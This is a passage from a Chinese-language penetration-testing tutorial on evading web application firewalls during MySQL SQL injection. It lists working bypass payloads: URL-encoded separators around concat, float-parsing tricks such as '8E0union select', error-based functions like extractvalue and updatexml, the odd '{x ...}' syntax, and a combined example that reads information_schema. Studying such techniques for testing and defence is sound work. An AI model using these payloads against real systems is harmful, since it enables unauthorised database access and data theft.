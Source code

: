 * concat%2520\(
* concat/\*\*/\(
* concat%250c\(
* concat%25a0\(

  举一反三，寻找类似的关键位置，Fuzz特殊字符，发现更多的绕过新方法。猜测工程师们写规则因为各种原因容易遗漏的点，进行绕过WAF检测。

## 4.1.4   浮点数词法解析

利用MySQL解析浮点数的特点，正则表达式无法匹配出单词union，但是MySQL词法解析成功解析出浮点数、sql关键字union。

```

```

* select \* from users where id=8E0union select 1,2,3,4,5,6,7,8,9,0
* select \* from users where id=8.0union select 1,2,3,4,5,6,7,8,9,0
* select \* from users where id=\Nunion select 1,2,3,4,5,6,7,8,9,0

## 4.1.5   利用error-based进行SQL注入

Error-based的SQL注入函数非常容易被忽略，导致WAF规则过滤不完整。随着对MySQL研究越来越深，被发现可用于error-based SQL注入的函数越来越多，同时也给绕过WAF造就了更多机会。常见的函数：

* extractvalue\(1, concat\(0x5c,md5\(3\)\)\);
* updatexml\(1, concat\(0x5d,md5\(3\)\),1\);
* GeometryCollection\(\(select\*from\(select\*from\(select@@version\)f\)x\)\)
* polygon\(\(select\*from\(select name\_const\(version\(\),1\)\)x\)\)
* linestring\(\) 
* multipoint\(\) 
* multilinestring\(\) 
* multipolygon\(\)

  利用Error-based的SQL注入函数进行绕过时，可以结合函数分隔符，或其他方法灵活运用。

## 4.1.6   Mysql特殊语法

最有效的发现手段，还是去读读MySQL词法分析源代码。和协议绕过类似，挖掘SQL标准与MySQL的词法分析差异是发现WAF SQL注入绕过的有效手段。以下是MySQL语法的一个特写\\(ps:不是我发现的\\)：

```
select{x table_name}from{x information_schema.tables};
```

## 4.1.7 综合利用实例

以上都是SQL注入绕过中的技术点，在实际渗透测试中，需要灵活综合利用才能达到完整绕过，读取数据数据。以下给出完整绕过WAF SQ注入检测的实例。如图，本例中综合多个绕过技术点，最终实现完整绕过实现读取数据。

```

```

* * 利用浮点数词法解析，绕过union select 的检测。
* 同样，函数分隔符思想集和浮点数词法解析，绕过关键字from的检测。
* 最后空白分分割绕过INFORMATION\_SCHEMA.TABLES的检查
